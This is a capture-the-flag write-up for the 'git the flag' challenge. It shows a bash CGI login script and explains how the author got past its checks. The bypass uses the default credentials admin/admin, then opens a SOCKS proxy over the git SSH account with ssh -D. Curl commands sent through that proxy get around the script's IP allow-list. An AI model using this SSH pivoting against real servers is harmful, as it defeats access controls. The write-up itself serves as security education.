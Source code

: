 # git the flag (misc, 96 pts, 58 solved)

This challenge is a CGI server and served its own source code using git.
The code that we're supposed to hack looks like this:

```bash
#!/bin/bash
set -euo pipefail
source /etc/config.ini
no_cache(){
    echo -ne "Pragma-directive: no-cache\n";
    echo -ne "Cache-directive: no-cache\n";
    echo -ne "Cache-control: no-cache\n";
    echo -ne "Pragma: no-cache\n";
    echo -ne "Expires: 0\n";
    echo -ne "Content-type: text/html\n\n"
}

success() {
    rm -f /tmp/login_session.txt
    cp /proc/sys/kernel/random/uuid /tmp/login_session.txt 2>&1
    echo -ne "Status: 302 Moved Temporarily\n"
    echo -ne "Set-Cookie: session=$(cat /tmp/login_session.txt)\n"
    echo -ne "Location: /cgi-bin/setup.cgi\n\n"
    exit
}

fail() {
    echo -ne "Content-type: text/html\n\n"

    echo "<html>"
    echo "<head><title>Omegalink login</title>"
    echo "<body><center>"
    echo "<h1>Login unsuccessful.</h1>"
    echo "<h3>Reason: $1</h3>"
    echo "<p><a href=/>Click here to try again</a></p>"
    echo "<p>This incident will be reported</p>"
    echo "</center></body>"
    echo "</html>"
    exit
}

parse_query() {
    saveIFS=$IFS
    IFS='=&'
    parm=($QUERY_STRING)
    IFS=$saveIFS

    declare -gA query_params
    for ((i=0; i<${#parm[@]}; i+=2))
    do
        query_params[${parm[i]}]="${parm[i+1]}"
    done
}

check_name_and_password() {
    pw_hash=$(echo -n "${query_params[password]}" | md5sum | cut -d ' ' -f 1)
    if [[ "${query_params[name]}" != $USERNAME || "$pw_hash" != $PASSWORD_HASH ]]; then
        fail "Wrong username or password"
    fi
}

check_remote_ip() {
    if [[ ! "$REMOTE_ADDR" =~ $ALLOWED_REMOTES ]]; then
        fail "$REMOTE_ADDR is not authorized to enter this site."
    fi
}

parse_query
check_name_and_password
check_remote_ip
success
```

There are two checks - check for name and password, and remote_ip.

The name and password was `admin` and `admin`. The author of this writeup
wasted some time, because the random md5 database he used didn't find it
for some weird reason (even though even google does)...

Anyway, the second check was harder. It was implemented correctly, so we had to
step back a bit. We remembered, that git clone works via ssh, we had credentials
that authenticated us to the server (to clone the code), and that ssh
allows any authenticated user to create a socks proxy.

So we quickly create one:

```bash
$ ssh git@35.234.131.107 -p 22222 -D 9090 "git-receive-pack '/code.git'"
```

And then two quick curls (what are webbrowsers for anyway?) are enough ftw:

```
curl "http://127.0.0.1/cgi-bin/login.cgi?name=admin&password=admin" -x socks5://127.0.0.1:9090 -vvv
curl "http://127.0.0.1/cgi-bin/setup.cgi" -x socks5://127.0.0.1:9090 -vvv --cookie session=fa3cc064-cf79-4691-a122-9723ae7fc79
```

And the flag is:

```
SaF{lmgtfy:"how to serve git over ssh"}
```
